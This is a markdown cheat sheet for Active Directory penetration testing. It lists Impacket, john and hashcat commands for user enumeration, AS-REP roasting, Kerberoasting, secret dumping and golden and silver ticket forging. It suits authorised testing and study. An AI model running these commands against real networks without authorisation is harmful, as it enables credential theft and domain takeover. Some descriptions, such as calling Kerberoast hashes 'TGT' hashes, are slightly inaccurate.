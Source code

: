 # Active Directory Penetration Testing
Knowledge of Windows Active Directory is highly important for penetration testing, especially in environments that heavily rely on Microsoft technologies.

#### Time-Sync (against Clock-Skew)
Synchronizes the system with a specific DC.
```bash
sudo rdate -n <ip-domain-controller>
```

#### Users in Active Directory
Retrieves information about users in the Active Directory, utilizing the specified domain controller and credentials.
```bash
impacket-GetADUsers -all -dc-ip <ip-domain-controller> <domain>/<user>:<password>
```

#### AS-REP Roastable Users
Identifies users vulnerable to AS-REP (Authentication Service - Response) attacks.
```bash
impacket-GetNPUsers -dc-ip <ip-domain-controller> <domain>/<username>:<password>
```

#### AS-REP Roasting
Exploits AS-REP vulnerability, retrieves Ticket Granting Ticket (TGT) for a user, and cracks the hash.

Request TGT for User:
```bash
impacket-GetNPUsers <domain>/<user> -dc-ip <ip-domain-controller> -request -format john
```

Crack the Hash of User:
```bash
john --wordlist=<path-to-wordlist> <hash-file>
```

#### More Reconnaissance
Dumps user-secrets, revealing hashed passwords, including those of Domain Admins.
```bash
impacket-secretsdump -dc-ip <ip-domain-controller> '<domain>/<user>:<password>@<target-ip>'
```

#### Ticket Forging - Golden Tickets
Initiates the creation and use of a Golden Ticket for privileged access

Getting SID:
```bash
impacket-lookupsid '<domain>/<admin-user>:<admin-password>@<ip-domain-controller>'
```

Getting the KRBTGT-Hash:
```bash
impacket-secretsdump -dc-ip <ip-domain-controller> '<domain>/<admin-user>:<admin-password>@<ip-domain-controller>' -just-dc-user KRBTGT
```

Creating Golden Ticket:
```bash
impacket-ticketer -aesKey <KRBTGT-Hash> -domain-sid <Domain-SID> -domain <domain> -duration 1 Admin

```

#### Ticket Forging - Silver Tickets
Utilizes a compromised machine account to create a Silver Ticket for unauthorized access.

Machine Account Hash:
```bash
impacket-secretsdump -dc-ip <ip-domain-controller> '<domain>/<admin-user>:<admin-password>@<ip-domain-controller>' | grep -e 'CORP\|MACHINE.ACC'
```

Creating Silver Ticket:
```bash
impacket-ticketer -aesKey <Machine-Account-Hash> -domain-sid <Domain-SID> -domain <domain> -dc-ip <ip-domain-controller> -spn cifs/<target> <user>
```

#### Kerberoasting
Identifies users with Service Principal Names (SPNs) and attempts to crack their Ticket Granting Ticket (TGT) hashes.

Get Users with SPNs:
```bash
impacket-GetUserSPNs -dc-ip <ip-domain-controller> <domain>/<username>:<password>
```

Request TGS for a User:
```bash
impacket-GetUserSPNs -dc-ip <ip-domain-controller> -request <domain>/<username>:<password>
```

Crack the Hash:
```bash
hashcat -m 13100 --force <hash-file> <path-to-wordlist>
```
